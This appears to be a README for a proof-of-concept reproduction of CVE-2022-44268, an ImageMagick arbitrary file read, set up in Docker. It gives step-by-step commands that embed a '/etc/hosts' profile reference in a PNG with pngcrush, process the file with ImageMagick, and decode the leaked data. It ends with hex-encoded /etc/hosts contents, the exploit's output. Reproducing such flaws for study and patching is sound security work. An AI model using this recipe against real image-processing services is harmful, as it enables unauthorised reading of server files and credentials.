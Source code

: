 # QuickStart

```sh
(host)  $ git submodule update --init --recursive
(host)  $ docker build .
(host)  $ docker run -v $(pwd)/images:/images -it $(docker build -q .)
(docker)$ cd /images
(docker)$ pngcrush -text a "profile" "/etc/hosts" temp1.png
(docker)$ convert pngout.png a.png
(docker)$ identify -verbose a.png # => get HEX_VALUE
(host)  $ python3 -c 'print(bytes.fromhex("HEX_VALUE"))'
```

# References

* https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

3132372e302e302e31096c6f63616c686f73740a3a3a31096c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666530303a3a30096970362d6c6f63616c6e65740a666630303a3a30096970362d6d636173747072656669780a666630323a3a31096970362d616c6c6e6f6465730a666630323a3a32096970362d616c6c726f75746572730a3137322e31372e302e32096563356330373930336431630a